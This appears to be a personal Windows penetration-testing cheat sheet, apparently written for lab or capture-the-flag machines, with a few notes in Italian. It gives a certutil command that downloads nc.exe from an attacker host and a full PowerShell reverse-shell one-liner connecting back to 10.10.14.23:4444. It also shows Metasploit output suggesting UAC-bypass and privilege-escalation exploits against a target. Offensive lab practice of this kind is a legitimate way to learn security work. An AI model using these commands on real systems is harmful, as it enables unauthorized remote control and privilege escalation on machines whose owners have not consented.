 # Windows

## file transfer

https://blog.ropnop.com/transferring-files-from-kali-to-windows/


## reverse shell 

### meterpreter
 https://johndcyber.com/how-to-create-a-reverse-tcp-shell-windows-executable-using-metasploit-56d049007047

### certutil
```
certutil -urlcache -f http://10.10.14.23/nc.exe nc.exe
```

### nishang 

```
powershell -command "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.23',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
https://github.com/samratashok/nishang

## Privilege escalation

### meterpreter
Ottenere una sessione meterpreter con il metodo sopra.

```
meterpreter > background 
[*] Backgrounding session 4...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) >
```


```
msf6 post(multi/recon/local_exploit_suggester) > set session 4
session => 4
```

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.106 - Collecting local exploits for x64/windows...
[*] 10.10.11.106 - 28 exploit checks are being tried...
[+] 10.10.11.106 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/ricoh_driver_privesc: The target appears to be vulnerable. Ricoh driver directory has full permissions
[+] 10.10.11.106 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Post module execution completed
```

